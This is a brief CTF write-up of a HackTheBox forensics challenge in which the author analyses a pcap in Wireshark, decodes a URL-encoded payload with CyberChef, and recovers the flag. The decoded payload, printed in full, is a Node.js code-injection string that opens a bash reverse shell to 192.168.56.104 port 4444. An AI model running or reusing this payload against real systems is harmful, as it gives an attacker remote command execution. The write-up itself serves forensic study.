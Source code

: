 ```yaml
---
title: Forbidden Manuscript
tags:
  - CTF
  - HackTheBox
  - Forensics
---
```

Once downloaded the files, we get a `.pcap`, so it's time to use Wireshark:

Click on Follow -> HTTP Stream:

![](Pasted%20image%2020241023222159.png)

Upon examining the HTTP streams, we can find an ncoded string in the Stream 4:

![](Pasted%20image%2020241023222408.png)

If we decode it in [CyberChef](https://gchq.github.io/CyberChef) it seems to be a reverse shell:

```shell
exploit%28%29%20%7B%7D%20%26%26%20%28%28%28%29%3D%3E%7B%20global.process.mainModule.require%28%22child_process%22%29.execSync%28%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.104%2F4444%200%3E%261%27%22%29%3B%20%7D%29%28%29%29%20%26%26%20function%20pwned

exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned
```

Now I follow the TCP stream and find the flag:

![](Pasted%20image%2020241023222720.png)

Once again, I decoded it in CyberChef:

![](Pasted%20image%2020241023222806.png)